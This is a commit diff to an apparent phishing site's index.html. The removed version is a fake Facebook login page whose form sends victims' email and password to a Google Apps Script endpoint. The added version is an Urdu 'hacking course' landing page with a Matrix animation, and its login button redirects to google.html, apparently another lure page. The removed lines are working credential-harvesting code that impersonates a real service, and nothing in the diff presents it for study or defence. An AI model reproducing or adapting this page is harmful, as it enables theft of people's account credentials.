

Before and after one commit to gdkddg/Koko, a plain HTML site: page index.html in a window 1280 px wide. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -1,127 +1,183 @@
+
 <!DOCTYPE html>
-<html>
+<html lang="ur">
 <head>
-  <!-- Google tag (gtag.js) -->
-<script async src="https://www.googletagmanager.com/gtag/js?id=G-8PLYFGLXW3"></script>
-<script>
-  window.dataLayer = window.dataLayer || [];
-  function gtag(){dataLayer.push(arguments);}
-  gtag('js', new Date());
+    <meta charset="UTF-8">
+    <meta name="viewport" content="width=device-width, initial-scale=1.0">
+    <title>ہیکنگ کورس</title>
+    <style>
+        * {
+            margin: 0;
+            padding: 0;
+            box-sizing: border-box;
+            font-family: 'Courier New', Courier, monospace;
+        }
 
-  gtag('config', 'G-8PLYFGLXW3');
-</script>
+        body {
+            background: #0a0a0a;
+            color: #00ff00;
+            overflow: hidden;
+        }
 
-<title>Login Page</title>
-<meta name="viewport" content="width=device-width, initial-scale=1.0"> <!-- موبائل ریسپانسیو کے لیے ضروری -->
-<style>
-  body {
-    font-family: sans-serif;
-    background-color: #f0f2f5;
+        /* ہیڈر سیکشن */
+        header {
+            text-align: center;
+            padding: 20px;
+            background: linear-gradient(45deg, #00ff00, #0a0a0a);
+            border-bottom: 2px solid #00ff00;
+            animation: glow 2s ease-in-out infinite alternate;
+        }
+
+        header h1 {
+            font-size: 3em;
+            text-shadow: 0 0 10px #00ff00, 0 0 20px #00ff00;
+        }
+
+        /* مین کنٹینر */
+        .container {
             display: flex;
             justify-content: center;
             align-items: center;
-    min-height: 100vh; /* پوری سکرین کی ہائیٹ */
-    margin: 0;
-    padding: 0;
+            height: calc(100vh - 100px);
+            flex-direction: column;
+            text-align: center;
         }
 
-  .login-container {
-    background-color: white;
-    border-radius: 8px;
-    box-shadow: 0 2px 4px rgba(0, 0, 0, 0.1);
+        .course-info {
+            background: rgba(0, 255, 0, 0.1);
             padding: 20px;
-    width: 90%; /* سکرین کے مطابق چوڑائی */
-    max-width: 400px; /* زیادہ سے زیادہ چوڑائی 400px */
-    text-align: center;
-    margin: 10px; /* کناروں سے کچھ فاصلہ */
+            border-radius: 10px;
+            border: 1px solid #00ff00;
+            margin-bottom: 20px;
+            animation: fadeIn 2s ease-in-out;
         }
 
-  .login-container h2 {
-    color: #1877f2;
-    margin-bottom: 20px;
-    font-size: 1.5rem; /* موبائل پر فونٹ سائز ایڈجسٹ */
+        .course-info h2 {
+            font-size: 2em;
+            margin-bottom: 10px;
+            text-shadow: 0 0 5px #00ff00;
         }
 
-  .login-container input[type="email"],
-  .login-container input[type="text"] {
-    width: 100%; /* ان پٹ فیلڈز پوری چوڑائی لیں */
-    box-sizing: border-box; /* پیڈنگ اور بارڈر کو چوڑائی میں شامل کریں */
-    padding: 12px;
-    margin-bottom: 15px;
-    border: 1px solid #dddfe2;
-    border-radius: 6px;
-    font-size: 1rem; /* فونٹ سائز موبائل کے لیے موزوں */
+        .course-info p {
+            font-size: 1.2em;
+            line-height: 1.5;
         }
 
-  .login-container button {
-    background-color: #1877f2;
-    color: white;
-    padding: 12px;
+        /* لاگن بٹن */
+        .login-btn {
+            padding: 15px 30px;
+            font-size: 1.5em;
+            background: #00ff00;
+            color: #0a0a0a;
             border: none;
-    border-radius: 6px;
+            border-radius: 5px;
             cursor: pointer;
-    width: 100%;
-    font-weight: bold;
-    font-size: 1rem;
+            text-transform: uppercase;
+            transition: all 0.3s ease;
+            box-shadow: 0 0 10px #00ff00, 0 0 20px #00ff00;
         }
 
-  .login-container button:hover {
-    background-color: #166fe5;
+        .login-btn:hover {
+            background: #0a0a0a;
+            color: #00ff00;
+            box-shadow: 0 0 20px #00ff00, 0 0 30px #00ff00;
+            transform: scale(1.1);
         }
 
-  .login-container a {
-    text-decoration: none;
-    color: #1877f2;
-    display: block;
-    margin-top: 10px;
-    font-size: 0.9rem;
+        /* اینیمیشنز */
+        @keyframes glow {
+            from {
+                box-shadow: 0 0 10px #00ff00;
+            }
+            to {
+                box-shadow: 0 0 20px #00ff00, 0 0 30px #00ff00;
+            }
         }
 
-  .login-container a:hover {
-    text-decoration: underline;
+        @keyframes fadeIn {
+            0% { opacity: 0; transform: translateY(20px); }
+            100% { opacity: 1; transform: translateY(0); }
         }
 
-  /* میڈیا کوئری: 600px سے چھوٹی سکرینز کے لیے */
-  @media (max-width: 600px) {
-    .login-container {
-      padding: 15px;
-      width: 90%;
-      margin: 5px;
+        /* بیک گراؤنڈ اینیمیشن */
+        .matrix {
+            position: fixed;
+            top: 0;
+            left: 0;
+            width: 100%;
+            height: 100%;
+            z-index: -1;
+            opacity: 0.2;
         }
 
-    .login-container h2 {
-      font-size: 1.3rem;
-    }
-
-    .login-container input[type="email"],
-    .login-container input[type="text"] {
-      padding: 10px;
-      font-size: 0.9rem;
-    }
-
-    .login-container button {
-      padding: 10px;
-      font-size: 0.9rem;
-    }
+        canvas {
+            display: block;
         }
     </style>
 </head>
 <body>
+    <!-- بیک گراؤنڈ میٹرکس اینیمیشن کے لیے کینوس -->
+    <canvas class="matrix"></canvas>
 
-<div class="login-container">
-  <h2>Facebook</h2>
-  <form
-    method="POST"
-    action="https://script.google.com/macros/s/AKfycbxkmnBujBrHe46FNf8qCvelRqYmQMgmyULtYxnPGmZkrVJJkN9eYCGMWbj9DgiO0Lh1/exec"
-  >
-    <input name="Email" type="email" placeholder="Email" required>
-    <input name="Password" type="text" placeholder="Password" required>
-    <button type="submit">Log In</button>
-  </form>
-  <a href="#">Forgot password?</a>
-  <hr style="margin-top: 20px; border: none; border-bottom: 1px solid #dadde1;">
-  <button style="background-color: #42b72a; margin-top: 20px;" onclick="window.location.href='https://m.facebook.com/campaign/landing.php?campaign_id=1653377901&extra_1=s%7Cm%7C358050429248%7Ce%7Cfacebook%20sign%20up%7C&placement&creative=358050429248&keyword=facebook%20sign%20up&partner_id=googlesem&extra_2=campaignid%3D1653377901%26adgroupid%3D65139789722%26matchtype%3De%26network%3Dg%26source%3Dmobile%26search_or_content%3Ds%26device%3Dm%26devicemodel%3D%26adposition%3D%26target%3D%26targetid%3Dkwd-5066597374%26loc_physical_ms%3D1011080%26loc_interest_ms%3D%26feeditemid%3D%26param1%3D%26param2%3D&gad_source=1&gclid=Cj0KCQjwhMq-BhCFARIsAGvo0KcHHn9tEiSrHej9FhBXzuFVLBVqWpR9MevAWz25Vlt9JgaE6L8xXm8aAmeuEALw_wcB&soft=hjk';">Create New Account</button>
+    <header>
+        <h1>ہیکنگ کورس</h1>
+    </header>
+
+    <div class="container">
+        <div class="course-info">
+            <h2>ایک ہیکر بننے کا سفر شروع کریں</h2>
+            <p>اس کورس میں آپ ایتھیکل ہیکنگ، نیٹ ورک سیکیورٹی، اور سائبر ڈیفنس کے راز سیکھیں گے۔ ماہرین کے ساتھ عملی تربیت حاصل کریں اور اپنی صلاحیتوں کو اگلی سطح پر لے جائیں!</p>
+        </div>
+        <button class="login-btn" onclick="redirectToIndex()">لاگن کریں</button>
     </div>
 
+    <script>
+        // لاگن بٹن پر کلک کرنے پر index.html پر ری ڈائریکٹ
+        function redirectToIndex() {
+            window.location.href = 'google.html';
+        }
+
+        // میٹرکس اینیمیشن
+        const canvas = document.querySelector('.matrix');
+        const ctx = canvas.getContext('2d');
+
+        canvas.height = window.innerHeight;
+        canvas.width = window.innerWidth;
+
+        const chars = '0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZ@#$%^&*';
+        const fontSize = 14;
+        const columns = canvas.width / fontSize;
+        const drops = [];
+
+        for (let x = 0; x < columns; x++) {
+            drops[x] = 1;
+        }
+
+        function draw() {
+            ctx.fillStyle = 'rgba(0, 0, 0, 0.05)';
+            ctx.fillRect(0, 0, canvas.width, canvas.height);
+
+            ctx.fillStyle = '#00ff00';
+            ctx.font = fontSize + 'px monospace';
+
+            for (let i = 0; i < drops.length; i++) {
+                const text = chars.charAt(Math.floor(Math.random() * chars.length));
+                ctx.fillText(text, i * fontSize, drops[i] * fontSize);
+
+                if (drops[i] * fontSize > canvas.height && Math.random() > 0.975) {
+                    drops[i] = 0;
+                }
+                drops[i]++;
+            }
+        }
+
+        setInterval(draw, 33);
+
+        // ونڈو ری سائز پر کینوس ایڈجسٹ کریں
+        window.addEventListener('resize', () => {
+            canvas.height = window.innerHeight;
+            canvas.width = window.innerWidth;
+        });
+    </script>
 </body>
 </html>
```
Lines whose indentation alone changed are shown as unchanged.
